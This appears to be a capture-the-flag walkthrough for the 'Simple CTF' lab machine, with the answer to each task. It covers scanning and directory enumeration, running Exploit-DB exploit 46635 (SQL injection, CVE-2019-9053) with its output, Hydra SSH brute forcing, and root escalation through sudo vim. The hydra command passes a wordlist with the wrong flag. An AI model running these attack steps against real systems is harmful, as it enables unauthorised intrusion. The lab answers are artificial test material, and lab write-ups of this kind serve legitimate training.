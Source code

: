 # Machine NAME : Simple CTF
# Machine IP   : 10.10.126.194

***TASK 1 : How many services are running under port 1000?***<br>
```
: 2 <br>
: Reference file :  Gathering/SimpleCTF_Scanning.txt
```

***TASK 2 : What is running on the higher port?***<br>
```
: ssh
```
***TASK 3 : What's the CVE you're using against the application?***<br>
```
: CVE-2019-9053 <br>

&nbsp; SITE MAP SCANING : gobuster (Reference file : Gathering/SimpleCTF_gobuster.txt)<br>
&nbsp; 1.EXPLOIT-DB LINK : https://www.exploit-db.com/exploits/46635 <br>
&nbsp; 2.convert python2 to python3 command : 2to3 -w {file_name} <br>
&nbsp; 3.command :./46635.py -u http://{ip}/{dir}/ <br>
&nbsp;&nbsp;[+] Salt for password found: 1dac0d92e9fa6bb2 <br>
&nbsp;&nbsp;[+] Username found: mitch <br>
&nbsp;&nbsp;[+] Email found: admin3@ <br>
&nbsp;&nbsp;[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96 <br>
```

***TASK 4: To what kind of vulnerability is the application vulnerable?***<br>
```
: sqli <br>
```

***TASK 5: What's the password?*** <br>
```
: password is secret <br>
&nbsp; : PASSWORD BRUTE FORCING (Hydra) <br>
&nbsp; : hydra -l mitch -p rockyou.txt ssh://{ip}/
```

***TASK6 : Where can you login with the details obtained?***<br>
```
: ssh
```

***TASK 7 : What's the user flag?*** <br>
```
Do it 
```

***TASK 8: Is there any other user in the home directory? What's its name?***<br>
```
:sunbath
```

***TASK 9 :	What can you leverage to spawn a privileged shell?*** <br>
```
:vim
```

***TASK 10 : What's the root flag?***<br>
```
&nbsp; command : sudo -l <br>
&nbsp; command : vim privilge escalate!<br>
```
